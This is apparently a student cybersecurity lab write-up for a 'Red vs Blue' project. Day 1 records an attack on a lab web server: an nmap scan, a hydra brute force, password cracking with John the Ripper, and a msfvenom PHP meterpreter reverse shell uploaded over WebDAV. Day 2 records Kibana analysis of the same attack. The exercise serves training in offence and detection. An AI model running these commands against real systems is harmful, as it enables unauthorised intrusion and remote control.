 ### Presentation

[Presentation Project 2 - Red vs Blue](https://docs.google.com/presentation/d/1o5kP7RrTumLeOpAKAgcN4QbE0NhggUn0IqP9X8dSDVE/edit?usp=sharing)
[Presentation Project 2 - Red vs Blue - PDF]

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```

![1-network-discovery](screenshots/1-network_discovery.png)

- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.

![2-website](screenshots/2-website.png)
![3-secret-folder](screenshots/3-secret-folder.png)

- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.

![4-rockyou-find](screenshots/4-rockyou-find.png)
![5-unzip-rockyou](screenshots/5-unzip-rockyou.png)

> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.

![6-hydra-bruteforce](screenshots/6-hydra-bruteforce.png)
![7-secret-folder-contents](screenshots/7-secret-folder-contents.png)

- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.

![8-webdav-contents](screenshots/8-webdav-contents.png)
![9-john-the-ripper](screenshots/9-john-ripper.png)

- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.

![10-webdav_passwd](screenshots/10-webdav_passwd.png)

- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.

![11-msfvenom](screenshots/11-msfvenom.png)
![12-cadaver](screenshots/12-cadaver.png)
![13-metasploit](screenshots/13-metasploit.png)

- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.

![14-payload](screenshots/14-payload.png)

- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```

![15-locate_flag](screenshots/15-locate_flag.png)
![16-flag](screenshots/16-flag.png)

### Day 2 Deliverables

#### Identify the offensive traffic.

* What time did the port scan occur?

> Port scan from 192.168.1.90 started around 14:42 on May 9th, 2022.

* How many packets were sent, and from which IP?

> 166,131 packets were sent from 192.168.1.90

* What indicates that this was a port scan?

> SYN scans from 192.168.1.90 to multiple ports on 192.168.1.105 through ICMP Echo for host detection.

![port-scan](/Project_2-Red-vs-Blue/screenshots/kibana-portscan.png)
#### Find the request for the hidden directory.

* What time did the request occur? How many requests were made?

> The request occurred at 15:07 on May 9th, 2022. There were 16,297 requests were made.

![kibana-secretfolder](/Project_2-Red-vs-Blue/screenshots/kibana-secretfolder.png)

* Which files were requested? What did they contain?

> The file ```/connect_to_corp_server``` was accessed. It contains instructions how to access web dav server, including MD5 Hashed password.

![kibana-filelook](/Project_2-Red-vs-Blue/screenshots/kibana-filelook.png)
#### Identify the brute force attack.

* How many requests were made in the attack?

> There were 16,297 requests made during the attack.

![kibana-hydra](/Project_2-Red-vs-Blue/screenshots/kibana-hydra.png)

* How many requests had been made before the attacker discovered the password?

> 16,296 attempts were made, resulting in HTTP Response code 401. The 16,297th attempt, was successful with HTTP Response code 301.

![kibana-301](/Project_2-Red-vs-Blue/screenshots/kibana-hydra301.png)
#### Find the WebDav connection.

* How many requests were made to this directory?

> There were 18 requests made to ```/webdav``` directory.

![kibana-webdav](/Project_2-Red-vs-Blue/screenshots/kibana-webdav.png)

* Which files were requested?

> The file requested was called ```meterpreter.php```.

![kibana-file](/Project_2-Red-vs-Blue/screenshots/kibana-accessedfiles.png)

